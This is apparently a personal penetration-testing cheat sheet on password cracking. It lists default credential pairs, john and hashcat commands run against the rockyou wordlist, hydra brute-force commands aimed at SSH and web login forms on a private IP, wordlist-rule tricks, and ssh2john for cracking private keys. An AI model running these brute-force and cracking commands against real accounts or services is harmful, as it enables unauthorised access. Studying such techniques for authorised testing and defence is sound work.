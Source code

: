 # Password Cracking

admin:admin admin:password root:root root:toor

Burpsuite if we want to

    john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt

    sudo gzip -d rockyou.txt.gz

    hydra -l noman -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.10.10

    hydra -l noman -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post

    hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

    hashcat -b | hashcat.exe -b (linux and window benchmark)

customize wordlists

    head /usr/share/wordlists/rockyou.txt > demo.txt | sed -i '/^1/d' demo.txt

if we want to add 1 in all password then | 

    echo \$1 > demo.rule | hashcat -r demo.rule --stdout demo.txt

    hash-identifier (find hash if simple)

    hashid (if id is available "$2y$10$)

    ssh2john id_rsa > ssh.hash | hashcat -h | grep -i "ssh" (port22)
